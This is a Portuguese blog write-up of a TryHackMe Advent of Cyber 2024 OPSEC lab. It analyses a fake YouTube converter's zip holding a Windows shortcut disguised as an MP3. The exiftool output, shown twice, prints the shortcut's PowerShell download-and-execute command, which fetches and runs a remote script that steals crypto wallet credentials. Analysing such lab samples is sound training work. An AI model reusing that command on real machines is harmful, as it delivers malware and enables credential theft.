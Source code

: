```yaml
---
title: OPSEC - DAY 1 - Advent of Cyber 2024
date: 2024-12-01 10:00:21
categories: [TRYHACKME, ADVENT OF CYBER 2024]
tags: [OPSEC,TRYHACKME]      # TAG names should always be lowercase
---
```


## Objetivos

1. Aprender como investigar links maliciosos.
2. Aprender sobre OPSEC[^fn-nth-1] e seus erros.
3. Entender como rastrear a identidade digital de um indivíduo através de investigações.

## Resumo da aula

É nos mostrado inicialmente, um website que realiza conversão de vídeos do `Youtube` para os formatos `.mp3` ou `.mp4`.
O site realiza a conversão e é gerado um arquivo em formato `.zip`, o arquivo compactado possui dentro dois arquivos e partir desses arquivos começaremos nossa investigação.

[A aula pode ser acessada aqui na tarefa 7](https://tryhackme.com/r/room/adventofcyber2024)

## Ínicio

Acessamos normalmente o website pelo navegador, sem necessidade de inserir um dóminio em nosso arquivo `/etc/hosts`.

![Página inicial do website](/assets/img/posts/2024/12/Advent-Cyber-day1-pic1.png)

Após inserirmos um link do Youtube para download, podemos escolher qual será o formato para download.

`https://www.youtube.com/watch?v=dQw4w9WgXcQ`

Escolhido o formato é iniciado a conversão, após isso, é gerado o arquivo `.zip`.

![Download do arquivo](/assets/img/posts/2024/12/Advent-Cyber-day1-pic2.png)

## Análisando o arquivo

Feito o download iremos descompactar nosso arquivo `.zip`.

```shell
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# cd ..       
                                                                                                                                                                                                    
┌──(root㉿estudos)-[/home/alex]
└─# cd Downloads 
                                                                                                                                                                                             
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# unzip download.zip
Archive:  download.zip
 extracting: song.mp3                
 extracting: somg.mp3  
 ```

São extraidos dois arquivos, `somg.mp3` e `song.mp3`, de mesmo formato, porém de tamanhos diferentes.

```shell
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# ls -lh *.mp3      
-rw-rw-r-- 1 root root 2.2K Oct 30 14:32 somg.mp3
-rwxrwxr-x 1 root root 4.4M Oct 24 09:50 song.mp3
```
A primeira análise que iremos realizar é verificar que tipo de arquivos são, utilizando o comando `file`.

```shell
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# file song.mp3                                                                                                            
song.mp3: Audio file with ID3 version 2.3.0, contains: MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
                                                                                                                                                                                                    
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, 
 Has Relative path, Has Working directory,
 Has command line arguments, Unicoded, MachineID win-base-2019, EnableTargetMetadata KnownFolderID 
 1AC14E77-02E7-4E5D-B744-2EB1AE5198B7, Archive, ctime=Sat Sep 15 10:14:14 2018, atime=Sat Sep 15 10:14:14 2018, mtime=Sat Sep 15 10:14:14 2018, length=448000, window=normal, IDListSize 0x020d, Root folder "20D04FE0-3AEA-1069-A2D8-08002B30309D",
 Volume "C:\", LocalBasePath "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```
Notamos que o arquivo `somg.mp3` não é um arquivo de áudio, mas sim um atalho de Windows (`MS Windows shortcut`).
Com o comando `exiftool` vamos analisar os metadados desse arquivo.

```shell
┌──(root㉿estudos)-[/home/alex/Downloads]
└─# exiftool somg.mp3 
ExifTool Version Number         : 13.00
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.2 kB
File Modification Date/Time     : 2024:10:30 14:32:52-03:00
File Access Date/Time           : 2024:12:20 20:43:21-03:00
File Inode Change Date/Time     : 2024:12:20 20:43:21-03:00
File Permissions                : -rw-rw-r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 04:14:14-03:00
Access Date                     : 2018:09:15 04:14:14-03:00
Modify Date                     : 2018:09:15 04:14:14-03:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Drive Serial Number             : A8A4-C362
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019 
```

As linhas que mais importam para nós, começam a partir de "Local Base path" .

```text
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```

O atalho basicamente chama o `powershell` , utiliza opção `-ep Bypass` define a política de execução para `Bypass`, realiza o download de um arquivo `.ps1` salvando-o no destino `C:\ProgramData`e após isso o executando-o, chegou a hora de verificar o que temos nessa URL.

## Análisando a URL

[URL suspeita](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)

Verificando o código da url temos a informação do nome do criador: `M.M`
O script verifica se o host possui determinadas carteiras Crypto, caso exista ele tenta roubar as credenciais.

![Nome do criador](/assets/img/posts/2024/12/Advent-Cyber-day1-pic3.png)

Assim como é informado na tarefa, podemos realizar de diversas maneiras essa pesquisa em busca do criador do script, na própria URL já temos um indicativo, porém, iremos realizar conforme a tarefa orienta, realizando uma busca no Github pela string: `Created by the one and only M.M.`.

![Pesquisa github](/assets/img/posts/2024/12/Advent-Cyber-day1-pic4.png)


[^fn-nth-1]:Segurança Operacional (OPSEC) é um conjunto de princípios e táticas usados ​​para tentar proteger a segurança de um operador ou operação. Um exemplo disso pode ser usar nomes de código em vez de seus nomes reais, ou usar um proxy para ocultar seu endereço IP.